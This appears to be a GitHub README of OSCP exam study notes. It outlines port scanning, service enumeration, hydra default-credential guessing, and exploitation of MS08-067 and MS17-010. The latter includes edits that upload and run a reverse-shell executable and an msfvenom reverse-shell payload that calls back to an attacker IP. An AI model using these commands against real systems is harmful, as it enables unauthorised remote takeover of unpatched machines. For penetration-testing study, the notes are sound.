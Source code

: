 # oscp_methodology
OSCP Methodology


## Blackbox
#### nmap full tcp port scan
* nmap <ip> -sV -sC -O -T4 --traceroute -p - -oA ~/path/filename

#### Ftp
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* Anonymous login
* nmap info

#### SSH
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* nmap info

#### Samba
* nmap info:
  * OS samba
  * Computer name/NetBIOS name
  * Domain name
  * Workgroup
  * OS of machine

* service (OS samba or nmap service header (139 & 445)) -> exploit
* nmap -sV -sC --open -T4  -p 139,445 --script=vuln --script-args=unsafe=1 <ip>
* enum4linux
* smbclient
 

## Exploits
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git
* zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
   
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
 
* custom payload:
  * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 -f exe > shell.exe

* need listner

 
